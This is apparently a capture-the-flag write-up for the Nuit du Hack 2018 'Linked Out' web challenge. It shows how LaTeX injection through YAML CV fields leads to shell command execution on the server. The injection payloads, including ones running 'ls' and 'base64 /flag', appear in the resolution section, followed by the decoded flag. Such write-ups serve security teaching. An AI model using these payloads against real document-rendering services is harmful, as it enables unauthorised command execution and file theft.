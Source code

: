 ```yaml
---
title: Quals NDH 2018 - Linked Out
authors: cnotin
layout: writeup
ctf_url: https://nuitduhack.com/
---
```

Solves: 58 / Points: 300 / Category: Web
## Challenge description
> This service build an awesome curriculum vitae for you ! Test it, recruiters will enjoy it ! The developper of this chall too ;)

We have a "Curriculum Vitæ Generator" website where we can upload a little form in YAML format with all the required information.
Once the form is uploaded, a very nice resume is generated in PDF format with the provided information.

The website explains that the tool it uses is *[posquit0's Awesome-CV](https://github.com/posquit0/Awesome-CV)*.

## Challenge resolution
### LaTeX injection
Here is the beginning of the sample YAML file:
```yaml
cv:
  personal_informations:
    firstname: Bruce
    lastname: Schneier
    address: 221b Baker Street, London, ENGLAND
    position: Security Expert ; Master of Internet
  contacts:
    mobile: +12 3 456 789 012
    email: bruce.schneier@it-is-not-my-real-email.com
    homepage: https://www.schneier.com/
    github: schneier-not-my-real-account
    gitlab: schneier-not-my-real-account
    linkedin: schneier-not-my-real-account
    twitter: schneierblog
    skype: schneier-not-my-real-account
    reddit: schneier-not-my-real-account
    xing: schneier-not-my-real-account
  misc:
    extrainfo: Buy one of my books!
    quote: '"Bruce Schneier knows your password before you do." --- https://www.schneierfacts.com'
[...]
```

We know that the used tool is based on LaTeX. It expects a `.tex` file with information in the following format:
```tex
\twitter{@twit}
\skype{skype-id}
\reddit{reddit-id}
\extrainfo{extra informations}
[...]
```

Our first intuition is that our inputs are simply inserted in the `.tex` file. So we could inject arbitrary LaTeX instructions.
Let's verify by trying to close an instruction then re-open it:
```yaml
    skype: BBBBBBBBBBBBBB}\skype{AAAAAAAAAA
```

The injection is successful since the generated PDF returns `AAAAAAAAAA` in the Skype field instead of `BBBBBBBBBBBBBB`:
![Linked Out injection](/assets/linkedout-injection.png)

### LaTeX injection to command execution
So we can inject LaTeX instructions: now, how to obtain the flag?
We remembered [articles about code injection in LaTeX files](https://0day.work/hacking-with-latex/). There are some prerequisites but we might get lucky.

We found a [Stack Exchange answer](https://tex.stackexchange.com/a/20566) sharing a nice compact syntax to execute shell commands and include the output in the document. Let's try it:
```yaml
    skype: BBBBBBBBBBBBBB}\skype{\input|"ls *"}%
```
It was indeed successful:
![Linked Out ls command](/assets/linkedout-command-ls.png)

### Get the flag
Extracting the flag with a `cat` command did not work. We thought that its content could create an invalid `.tex` file.
Therefore we used `base64` to obtain it encoded.
```yaml
  skype: BBBBBBBBBBBBBB}\skype{\input|"base64 /flag"}%
```
![Linked Out base64 flag](/assets/linkedout-flag-b64.png)

Decode it and get the flag:
```shell
$ echo -ne "TkRIe0FuZF9Eb25hbGRfS251dGhfY3JlYXRlZF90aGVfaVRlWH0K" | base64 -d  -
NDH{And_Donald_Knuth_created_the_iTeX}
```
